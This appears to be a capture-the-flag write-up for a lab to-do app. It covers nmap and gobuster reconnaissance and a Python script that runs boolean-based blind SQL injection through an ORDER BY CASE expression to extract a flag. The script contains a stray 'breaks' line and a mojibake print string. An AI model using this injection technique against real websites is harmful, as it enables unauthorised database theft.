





# Prioritise
In this challenge you will explore some less common SQL Injection techniques.

## Find the Flag!
We have this new to-do list application, where we order our tasking based on priority! Is it really all that secure, though...?

Enumiration
```
nmap -sV -T4 -vv 10.113.181.20
Starting Nmap 7.80 ( https://nmap.org ) at 2026-03-09 05:56 GMT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 05:56
Scanning 10.113.181.20 [4 ports]
Completed Ping Scan at 05:56, 0.03s elapsed (1 total hosts)
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating SYN Stealth Scan at 05:56
Scanning 10.113.181.20 [1000 ports]
Discovered open port 80/tcp on 10.113.181.20
Discovered open port 22/tcp on 10.113.181.20
Completed SYN Stealth Scan at 05:56, 0.06s elapsed (1000 total ports)
Initiating Service scan at 05:56
Scanning 2 services on 10.113.181.20
WARNING: Service 10.113.181.20:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Completed Service scan at 05:56, 6.18s elapsed (2 services on 1 host)
NSE: Script scanning 10.113.181.20.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:56
Completed NSE at 05:56, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:56
Completed NSE at 05:56, 0.00s elapsed
Nmap scan report for 10.113.181.20
Host is up, received timestamp-reply ttl 64 (0.00012s latency).
Scanned at 2026-03-09 05:56:38 GMT for 6s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  rtsp    syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.80%I=7%D=3/9%Time=69AE611C%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,B15,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20text/html;\x20cha
SF:rset=utf-8\r\nContent-Length:\x202756\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n\x20\x20<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf
SF:-8\"\x20/>\n\x20\x20\x20\x20<meta\n\x20\x20\x20\x20\x20\x20name=\"viewp
SF:ort\"\n\x20\x20\x20\x20\x20\x20content=\"width=device-width,\x20initial
SF:-scale=1,\x20shrink-to-fit=no\"\n\x20\x20\x20\x20/>\n\n\x20\x20\x20\x20
SF:<link\n\x20\x20\x20\x20\x20\x20rel=\"stylesheet\"\n\x20\x20\x20\x20\x20
SF:\x20href=\"\.\./static/css/bootstrap\.min\.css\"\n\x20\x20\x20\x20\x20\
SF:x20crossorigin=\"anonymous\"\n\x20\x20\x20\x20/>\n\x20\x20\x20\x20<link
SF:\n\x20\x20\x20\x20\x20\x20rel=\"stylesheet\"\n\x20\x20\x20\x20\x20\x20h
SF:ref=\"\.\./static/css/font-awesome\.min\.css\"\n\x20\x20\x20\x20\x20\x2
SF:0crossorigin=\"anonymous\"\n\x20\x20\x20\x20/>\n\x20\x20\x20\x20<link\n
SF:\x20\x20\x20\x20\x20\x20rel=\"stylesheet\"\n\x20\x20\x20\x20\x20\x20hre
SF:f=\"\.\./static/css/bootstrap-datepicker\.min\.css\"\n\x20\x20\x20\x20\
SF:x20\x20crossorigin=\"anonymous\"\n\x20\x20\x20\x20/>\n\x20\x20\x20\x20<
SF:title>Prioritise</title>\n\x20\x20</head>\n\n\x20\x20<body>\n\x20\x20\x
SF:20\x20<!--\x20Navigation\x20-->\n\x20\x20\x20\x20<nav\x20class=\"navbar
SF:\x20navbar-expand-md\x20navbar-dark\x20bg-dark\">\n\x20\x20\x20\x20\x20
SF:\x20<div\x20class=\"container\">\n\x20\x20\x20\x20\x20\x20\x20\x20<a\x2
SF:0class=\"navbar-brand\"\x20href=\"/\"><span\x20class=\"\">Prioritise</s
SF:pan></a>\n\x20\x20\x20\x20\x20\x20\x20\x20<button\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20class=\"na")%r(HTTPOptions,69,"HTTP/1\.0\x20200\x20
SF:OK\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS
SF:,\x20HEAD,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,69,"R
SF:TSP/1\.0\x20200\x20OK\r\nContent-Type:\x20text/html;\x20charset=utf-8\r
SF:\nAllow:\x20OPTIONS,\x20HEAD,\x20GET\r\nContent-Length:\x200\r\n\r\n")%
SF:r(FourOhFourRequest,13F,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\r\n\r\n<!D
SF:OCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20Final//EN\
SF:">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\n<p>The\x
SF:20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20server\.\x20I
SF:f\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20check\x20you
SF:r\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.40 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.048KB)
```

```
gobuster dir -u http://10.113.181.20/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.113.181.20/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/new                  (Status: 405) [Size: 178]
Progress: 218275 / 218276 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing, check web application



We have order functionality



Check SQLi with `http://10.113.181.20/?order=title%27` - Error



Check pure SQLi `http://10.113.181.20/?order=title%20DESC` - it's working



Bacause of using ORDER BY functionality we need use CASE statement
Something like this
```
CASE
    WHEN condition1 THEN result1
    WHEN condition2 THEN result2
    ELSE default_result
END
```

Let's use python script

```
import requests
import string
from urllib.parse import quote

BASE_URL = "http://10.113.181.20/?order="
CHARS = string.ascii_letters + string.digits + "_{}-"
TIMEOUT = 10

s = requests.Session()
YES_RESPONSE = s.get(BASE_URL + "title", timeout=TIMEOUT).text

flag = ""

while True:
    found = False

    for ch in CHARS:
        prefix = flag + ch
        n = len(prefix)

        payload = (
            f'(CASE WHEN (SELECT SUBSTRING(flag,1,{n}) FROM flag)="{prefix}" '
            f'THEN title ELSE date END)'
        )

        r = s.get(BASE_URL + quote(payload, safe='()=,", '), timeout=TIMEOUT)

        if r.text == YES_RESPONSE:
            flag += ch
            found = True
            print("[+] Current flag:", flag)
            break

    if not found:
        print("[!] !8<2>; =5 =0945=, >AB0=>2:0.")
        break

    if flag.endswith("}"):
        print("[+] Final flag:", flag)
        breaks
```



We've found the flag